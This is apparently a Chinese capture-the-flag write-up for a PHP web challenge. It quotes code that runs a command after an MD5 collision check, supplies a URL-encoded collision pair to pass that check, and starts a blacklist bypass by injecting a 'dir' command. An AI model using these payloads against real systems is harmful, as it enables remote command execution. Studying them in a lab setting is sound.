 ```php

} else {

    //否则进行MD5碰撞：首先比较POST请求中的a和b参数是否相等，然后比较它们的MD5哈希值是否相等。如果两个条件都满足，则执行$cmd命令，并输出结果；否则输出"md5 is funny ~"。

    if ((string)$_POST['a'] !== (string)$_POST['b'] && md5($_POST['a']) === md5($_POST['b'])) {

        echo `$cmd`;

    } else {

        echo ("md5 is funny ~");

    }

}

```

看完其实可以得知的是，要用POST传参

  

## first problem: MD5碰撞

  

参考这个——<a href=https://www.jianshu.com/p/c9089fd5b1ba>MD5碰撞的一些例子</a>

进行URL编码

```

a=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2

&b=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2

```

  

## second problem: 绕过黑名单

  
  
  

>dir 命令最基本的用途是列出当前目录的内容，最简单的使用方式是不带任何参数和选项，直接键入 dir，然后回车，默认就会列出当前目录中的内容

  

`dir%20`

```

555.png  bj.png  ctf3.jpeg  index.php

```
